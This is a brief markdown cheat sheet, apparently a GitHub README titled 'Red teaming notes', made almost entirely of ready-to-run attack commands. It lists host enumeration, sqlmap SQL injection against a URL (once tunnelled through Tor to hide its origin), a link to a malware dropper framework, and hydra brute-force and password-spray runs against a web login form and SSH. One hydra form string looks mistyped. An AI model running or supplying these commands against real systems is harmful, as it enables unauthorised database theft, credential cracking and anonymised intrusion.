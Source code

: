 # Red teaming notes
Script &amp; Notes for red teams operations


# enumeration
ping ip

whois ip

tracert ip

# database
sqlmap -u "http://website.com?id1=10&id2=10"

# sqlmap && tor
sqlmap -u "http://website.com?id1=10&id2=10" --tor --tor-type=SOCKS5


# malware repo
https://github.com/D4Vinci/Dr0p1t-Framework

# hydra pwd crack
hydra -L USER.TXT -P PASS.TXT 1.1.1.1 http-post-form "login.php:username-^USER^&password=^PASS^:Error"
hydra -L USER.TXT -P PASS.TXT 1.1.1.1 ssh

# hydra pwd spray attack
hydra -L users.txt -P passwords.txt 192.168.0.1 ssh -u

